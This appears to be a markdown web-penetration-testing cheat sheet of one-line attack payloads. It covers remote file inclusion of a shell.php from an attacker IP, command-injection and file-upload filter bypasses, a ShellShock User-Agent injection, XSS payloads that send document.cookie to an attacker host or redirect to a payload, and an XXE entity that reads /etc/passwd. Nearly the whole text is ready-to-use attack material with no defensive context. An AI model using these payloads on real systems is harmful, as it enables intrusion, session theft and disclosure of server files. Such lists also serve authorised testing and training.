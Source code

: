 -----

#### RFI

- One Line
    - `http://{IP}/{target}?{value}=http://{IP}/shell.php`

-----

#### Command Injection

- Bypass Check
    - URL Encode
    - Special Encode Bypass
        - `%00` = ` `
        - `%0d%0a` = `\r\n`

-----

#### Upload Bypass

- File extension
    - [File extension wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
- File Type
    - Change `application/x-php` to `image/png`
- File Header
    - Change `<?php phpinfo();?>` to `GIF89a<?php phpinfo();?>`
    - hexeditor
        - JPEG `FF D8 FF DB`
        - GIF `47 49 46 38 39 61`

-----

#### ShellShock

- One Line
    - `User-Agent : () { :;}; {command}`

-----

#### XSS

- Basic Payload
`<script>alert(1)</script>`
- Steal Cookie
    - `<script>new Image().src="http://{IP}:{PORT}/"+document.cookie</script>`
- Exploit
    - `<script>window.location.replace("http://{IP}/payload")</script>` 

-----

#### XXE

- Payload
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
- https://www.digicentre.com.tw/industry_detail.php?id=38
